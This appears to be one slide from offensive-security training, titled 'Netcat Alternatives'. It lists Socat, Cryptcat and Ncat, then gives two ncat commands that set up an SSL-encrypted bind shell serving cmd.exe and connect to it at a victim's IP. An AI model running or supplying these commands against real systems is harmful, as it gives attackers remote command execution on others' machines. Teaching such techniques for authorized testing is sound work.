

Netcat Alternatives

Socat
Cryptcat
Ncat
ncat –-exec cmd.exe –-ssl –-allow [IP] –vnl [PORT]
ncat [VICTIM_IP] [PORT] --ssl